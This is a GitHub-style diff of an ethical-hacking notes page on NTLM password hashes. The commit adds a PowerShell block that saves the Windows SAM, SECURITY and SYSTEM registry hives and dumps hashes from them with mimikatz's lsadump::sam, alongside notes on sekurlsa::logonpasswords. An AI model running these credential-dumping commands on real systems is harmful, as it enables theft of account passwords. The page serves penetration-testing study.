

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/cracking-passwords/ntlm-toolkit.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
GITBOOK-169: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/cracking-passwords/ntlm.md
+++ b/ethical-hacking/cracking-passwords/ntlm-toolkit.md
@@ -4,7 +4,7 @@ description: >-
   password hashes in Windows.
 ---
 
-# NTLM
+# NTLM Toolkit
 
 Credentials are stored when a user logs into an account & when a user runs a service. More information below.
 
@@ -12,13 +12,9 @@ Credentials are stored when a user logs into an account & when a user runs a ser
 
 Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_
 
-
-
-
-
 ## Local Security Authority Subystem (LSASS).
 
-
+LSA stands for **Local Security Authority** and it is a special process which is responsible for authenticating users and verifying Windows logins.
 
 ## Mimikatz
 
@@ -28,11 +24,18 @@ We can use various commands to extract passwords from the system.
 
 For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.
 
+### **LSA memory content**
+
+```powershell
+reg save hklm\sam sam.hiv
+reg save hklm\security security.hiv
+reg save hklm\system system.hiv
+./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
+```
+
 ### sekurlsa**::logonpasswords**
 
 **sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.
-
-
 
 ### l**sadump::sam**
 
````
Also changed, not shown: other parts of ethical-hacking/cracking-passwords/ntlm-toolkit.md (+0 -2 lines), SUMMARY.md (+1 -1 lines).
